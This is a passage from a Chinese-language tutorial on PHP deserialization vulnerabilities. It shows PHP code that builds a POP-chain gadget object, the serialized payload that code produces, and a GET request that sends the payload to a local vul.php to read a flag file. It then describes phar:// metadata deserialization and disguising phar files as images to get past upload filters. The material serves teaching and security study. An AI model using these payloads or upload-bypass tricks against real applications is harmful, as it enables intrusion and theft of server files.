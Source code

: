 ```php
  class Test{
    public $file;
    public $params;
    // 原方法的定义此处省略，因为它对生成序列化字符串没有影响
  }
  $test = new Test();
  $test->params = array('source'=>'/var/www/html/flag.php');
  $show = new Show();
  $show->str = array('str'=>$test);
  $output = new Output($show);
  echo serialize($output);
?>
```

执行后得到如下序列化字符串：

```java
O:6:"Output":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/flag.php";}}}s:6:"source";N;}}
```

**5. 将生成的序列化字符串传递给漏洞参数实现利用**

漏洞参数是 GET 参数 str，因此可以如此构造请求：

```java
http://127.0.0.1/vul.php?str=O:6:"Output":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/flag.php";}}}s:6:"source";N;}}
```

整个过程可能有点绕，但 POP 链的利用技术就是如此，需要你对目标程序进行全方位的分析，提取出可利用的调用链进行组装，才有可能实现真正的攻击效果。

#### 3.phar 文件攻击

在 2018 年 BlackHat 黑客大会上，安全研究员 Sam Thomas 分享了议题"It's a PHP unserialization vulnerability Jim, but not as we know it"，介绍了一种关于利用 phar 文件实现反序列化漏洞的利用技巧，利用的是 phar 文件中序列化存储用户自定义的 meta-data，在解析该数据时就必然需要反序列化，配合 phar:// 伪协议即可触发对此的反序列化操作。比如如下代码即可触发对 test.txt 文件内容的反序列化操作：

```php
$filename = 'phar://phar.phar/test.txt';
file_get_contents($filename);
```

在实际利用时，还可以对 phar 文件进行格式上的伪造，比如添加图片的头信息，将其伪装成其他格式的文件，用于绕过一些上传文件格式的限制。  

更加具体技术资料，推荐以下两篇：

[《利用 phar 拓展 php 反序列化漏洞攻击面》](https://paper.seebug.org/680/)

[《It's a PHP unserialization vulnerability Jim, but not as we know it》](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf)

### 如何挖掘反序列化漏洞？

#### 1.代码审计
